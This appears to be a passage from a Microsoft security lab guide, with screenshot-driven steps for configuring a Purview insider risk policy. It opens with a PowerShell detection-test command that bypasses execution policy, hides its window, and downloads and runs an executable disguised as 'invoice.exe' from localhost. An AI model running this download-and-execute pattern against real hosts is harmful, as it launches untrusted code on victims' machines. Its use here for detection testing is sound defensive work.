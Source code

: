 ```powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyleHidden $ErrorActionPreference= 'silentlycontinue';(New-ObjectSystem.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe','C:\test-WDATP-test\invoice.exe');Start-Process 'C:\test-WDATP-test\invoice.exe'```

![A screenshot of a computer Description automatically
generated](./media/image122.png)

6.  On the **Choose users and groups** page, select **Include all users and
    groups**. Select **Next** to continue.

![A screenshot of a computer Description automatically
generated](./media/image106.png)

7.  On the **Exclude users and groups** page, select **Next**.

9.  On the **Decide whether to prioritize** page, select **I want to specify
    priority content**. Select the check box for **Sensitivity
    labels** and **Sensitive info types**. Select **Next** to continue.

![A screenshot of a computer screen Description automatically generated
with medium confidence](./media/image123.png)

9.  On the **Sensitivity labels to prioritize** page, select **Add or edit
    sensitivity labels**. On the flyout pane, select **Internal/Employee
    data (HR)** and select **Add**. Then click **Next**.

![A screenshot of a computer screen Description automatically generated
with medium confidence](./media/image124.png)

10.  On the **Sensitive info types to prioritize** page, select **Add or edit
    sensitive info types**. On the flyout pane, search for and
    select **Credit Card Number**, **Contoso Employee ID** and **Contoso Employee
    EDM**. Select **Add**. Then click **Next**.

![A screenshot of a computer Description automatically
generated](./media/image125.png)

11.  On **Decide whether to score only activity with priority content**,
    select **Get alerts for all activity**. Select **Next**.

![A screenshot of a computer screen Description automatically generated
with medium confidence](./media/image126.png)

12.  On triggers for this policy page, select the default and then
    select Next.

![A screenshot of a computer Description automatically generated with
medium confidence](./media/image127.png)

13.  On **Indicators** page, select **Turn on indicators** from the
    prompt.

![A screenshot of a computer Description automatically generated with
medium confidence](./media/image128.png)

14. Select **Select all under Office indicators** and click **Save**.

![A screenshot of a computer screen Description automatically generated
with medium confidence](./media/image129.png)

15. Select all the options and click on **Next**.

![A screenshot of a computer Description automatically
generated](./media/image130.png)

16. On **Detection options** page, select the default and then
```